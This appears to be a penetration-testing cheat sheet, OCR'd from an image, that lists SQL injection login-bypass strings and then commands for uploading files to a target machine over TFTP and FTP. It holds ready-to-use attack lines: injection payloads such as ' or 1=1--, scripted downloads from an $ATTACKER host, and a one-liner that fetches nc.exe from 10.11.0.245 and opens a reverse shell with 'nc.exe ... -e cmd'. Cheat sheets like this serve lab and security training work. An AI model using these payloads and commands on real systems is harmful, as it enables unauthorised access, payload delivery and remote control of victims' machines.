 ```bash
admin' --
```

```bash
admin' #
```

```bash
admin'/*
```

```bash
' or 1=1--
```

```bash
' or 1=1#
```

```bash
' or 1=1/*
```

```bash
') or '1'='1--
```

```bash
') or ('1'='1—
```

## Uploading Files to Target Machine

TFTP

```bash
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

FTP

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```
